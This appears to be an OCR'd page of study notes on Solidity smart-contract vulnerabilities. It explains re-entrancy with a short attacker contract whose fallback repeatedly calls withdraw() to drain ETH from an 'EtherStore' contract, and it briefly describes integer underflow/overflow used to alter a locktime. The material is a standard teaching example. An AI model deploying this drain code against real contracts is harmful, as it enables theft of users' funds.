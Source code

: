**Re-Entrancy Hack:**
  - Contract B can attack contract A by continously calling withdraw() to drain ETH through the fallback() because the state variable haven't updated.
  ````javascript
  //Reentracy exploit allows B to call back into A before A finishes execution.
  // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }
  ````
  
  **Underflow/Overflow**
  - Solidity will handle the # above or below the range by wraps around in between 0 and 2^256 -1
  - uint 0 <= x <= 2^256 - 1
  - Malicious contract can change the locktime value using under/over flow.
